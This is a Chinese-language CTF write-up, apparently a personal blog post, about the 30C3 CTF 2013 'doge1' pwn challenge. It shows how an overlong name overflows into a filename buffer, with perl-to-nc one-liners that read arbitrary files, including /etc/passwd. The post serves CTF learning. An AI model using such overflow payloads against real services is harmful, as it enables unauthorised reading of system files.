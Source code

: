 title: 30C3CTF 2013 PWN 100 DOGE1
date: 2013-12-30 21:25
category: pwn
tags: 3XC3CTF, bof
slug: 30c3ctf_2013_pwn_100_doge1

這次都沒有人陪打 QQ  
只解兩題 100 分...真慘  
不過這題 100 分，跟另一題的難度也差太多了吧 = =  
* * *

先用 nc 連線過去，要求我們輸入名稱，然後就看到一隻...豬頭?  
提示有兩個指令好用: `feed`, `show`  
`show` 是再印一次豬頭，`feed` 也差不多，奇怪的功能 = =  
![doge1.png]({filename}/images/30c3CTF_2013_doge_1.png)  

假如不輸入 `feed` 或 `show`，試著輸入長字串，毫無反應 Orz  
試試看輸入超長名稱....沒有印出那顆豬頭了 XD  

這題有提供原始程式，資料夾底下有三個檔案:

* ascii\_art\_doge\_color.txt
* doge.so
* run.py

*ascii_art_doge_color.txt* 就是那隻豬頭的 ascii 圖檔  
*run.py* 只有：  

```
#!/usr/bin/env python
import signal
import doge
signal.signal(signal.SIGCHLD, signal.SIG_IGN)
doge.listen("0.0.0.0", 1024)
```

*doge.so* 是編譯過的 linux library  
執行起來，並且輸入長字串看看結果，結果 server 端有噴出錯誤訊息  
>...  
>File "doge.pyx", line 54, in doge.Doge.\_\_str\_\_ (doge.c:1875)  
>IOError: [Errno 2] No such file or directory: 'aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa'  

看來是發生 bof 了 XD  
繼續試一下前面塞多少才會蓋到，結果是 "a"x32  
`perl -e 'print "a"x32 . "test"' | nc 0 1024`  
>...  
>File "doge.pyx", line 54, in doge.Doge.__str__ (doge.c:1875)  
>IOError: [Errno 2] No such file or directory: 'testi\_art\_doge\_color.txt'  

試試看能不能成功讀檔：
`perl -e 'print "a"x32 . "run.py\x00"' | nc 0 1024`
>Dogename: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaarun.py#!/usr/bin/env python  
>import signal  
>import doge  
>signal.signal(signal.SIGCHLD, signal.SIG\_IGN)  
>doge.listen("0.0.0.0", 1024)  
>commands: feed, show  

接下來就是猜猜看了...試了幾個檔案像是 *flag* , *flag.txt* , *key* , *key.txt* ...都失敗了 = =  
最後猜到 */etc/passwd*  
![flag.png]({filename}/images/30c3CTF_2013_doge_flag.png)

flag: `30C3_51dd250e0adb864ff40cc40b818852f4`
